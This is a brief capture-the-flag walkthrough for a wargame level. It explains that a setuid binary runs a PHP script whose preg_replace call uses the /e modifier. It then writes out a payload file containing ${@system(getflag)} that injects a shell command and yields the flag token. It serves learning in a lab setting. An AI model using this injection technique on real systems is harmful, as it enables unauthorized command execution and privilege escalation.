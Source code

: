 # Level06
## Step by step
- In the user `level06` home directory, there is a file
  ```bash
  > ls -la
  -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
  -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
  ```
- The file `level06.php` contains code in PHP. It's calling a function `preg_replace()` that is unsafe with the flag `/*/e`.
  ```bash
  > cat <<'hey' >/tmp/test
  > [x ${@system(getflag)}]
  > hey

  > ./level06 /tmp/test flag06
  Check flag.Here is your token : XXX
  ```
